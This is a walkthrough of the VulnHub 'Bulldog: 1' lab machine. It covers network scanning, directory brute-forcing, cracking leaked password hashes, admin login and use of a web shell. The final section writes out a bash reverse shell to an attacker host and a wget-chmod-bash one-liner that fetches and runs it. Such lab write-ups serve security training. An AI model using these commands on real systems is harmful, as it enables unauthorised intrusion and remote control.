::::::::::::::::::::::::::: page
# Bulldog: 1 {#bulldog-1 .title}

\

## 

## Bulldog: 1

- **[Bulldog: 1]{style="color:#663e0e;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/bulldog-1,211/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#3584e4;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.166
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.166
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.166    
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 8080 -sT -sV -A --script=http-enum.nse 192.168.2.166
:::



1.  [Web Enumeration]{style="color:#3584e4;"} :

- IP visit in browser : <http://192.168.2.166>
  <http://192.168.2.166:8080> <http://192.168.2.166/robots.txt>
  <http://192.168.2.166/dev/>

<!-- -->

- Directory brute force in /dev endpoints :

::: codebox
    gobuster dir -u http://192.168.2.166/dev -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt,bak
:::



- View the souce code :



- Found email and hash :

::: codebox
    malik@bulldogindustries.com : c6f7e34d5d08ba4a40dd5627508ccb55b425e279
    kevin@bulldogindustries.com : 0e6ae9fe8af1cd4192865ac97ebf6bda414218a9
    ashley@bulldogindustries.com : 553d917a396414ab99785694afd51df3a8a8a3e0
    nick@bulldogindustries.com : ddf45997a7e18a25ad5f5cf222da64814dd060d5
    sarah@bulldogindustries.com : d8b8dd5e7f000b8dea26ef8428caf38c04466b3e
:::

- Now crack the hash :

::: codebox
    nano hashes.txt
:::



- Run the hashcat to crack the hash :

::: codebox
    hashcat -m 100 hashes.txt /opt/rockyou.txt
:::

 Crack only 2 hash .

- Cracked hash :

::: codebox
    ddf45997a7e18a25ad5f5cf222da64814dd060d5 : bulldog
    d8b8dd5e7f000b8dea26ef8428caf38c04466b3e : bulldoglover
:::

- User Mapping :

::: codebox
    nick  : bulldog
    sarah : bulldoglover
:::

- Directory brute force :

::: codebox
    gobuster dir -u http://192.168.2.166 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x py,txt,html
:::



- Visit the endpoints : <http://192.168.2.166/admin/>



- Login URL : http://192.168.2.166/admin/

<!-- -->

- Valid Credentials :

::: codebox
    Username : nick
    Password : bulldog
:::



- Again visit the /dev/shell endpoints :
  <http://192.168.2.166/dev/shell/>



- Execute the command :

::: codebox
    pwd
:::

- 

::: codebox
    ls -lh
:::





- Read Django Settings file :

::: codebox
    cat bulldog/settings.py
:::

- Findings :

::: codebox
    Django Version
    Django 1.8.7
    Secret Key
    SECRET_KEY = '%9a3ph3iwk$v*_#x4ejg8(t5(qll0fl8q8&u+o_g$yi83d*riq'
    Debug
    DEBUG = False
    Allowed Hosts
    ALLOWED_HOSTS = ['*']
    Installed Apps
    INSTALLED_APPS = (
        'bulldog',
        'django.contrib.admin',
        'django.contrib.auth',
        'django.contrib.contenttypes',
        'django.contrib.sessions',
        'django.contrib.messages',
        'django.contrib.staticfiles',
    )
    Root URL Configuration
    ROOT_URLCONF = 'bulldog.urls'
    Database
    DATABASES = {
        'default': {
            'ENGINE': 'django.db.backends.sqlite3',
            'NAME': os.path.join(BASE_DIR, 'db.sqlite3'),
        }
    }
    Static Directories
    STATIC_URL = '/static/'

    STATICFILES_DIRS = [
        os.path.join(BASE_DIR, 'templates'),
        os.path.join(BASE_DIR, 'static'),
    ]
:::

- Check file in bulldog directory :

::: codebox
    ls bulldog
:::



1.  [Reverse shell]{style="color:#3584e4;"} :

- In the webshell, we run :

::: codebox
    pwd && which wget && which chmod && which bash && cd /tmp && pwd && ls -la
:::

 This script will tell us if we can run wget,
chmod and bash, while also double-checking that we can write to /tmp .

- Make a file :

::: codebox
    nano reverse_shell.sh
:::

- Add the content :

::: codebox
    bash -i >& /dev/tcp/192.168.2.219/443 0>&1
:::



- Start the python server :

::: codebox
    python -m http.server 8080
:::

- Start the listener in other terminal :

::: codebox
    nc -nlvp 443
:::

- Run the command :

::: codebox
    pwd && cd /tmp && wget http://192.168.2.219:8080/reverse_shell.sh && chmod +x reverse_shell.sh && bash reverse_shell.sh
:::



- We got the shell :


:::::::::::::::::::::::::::
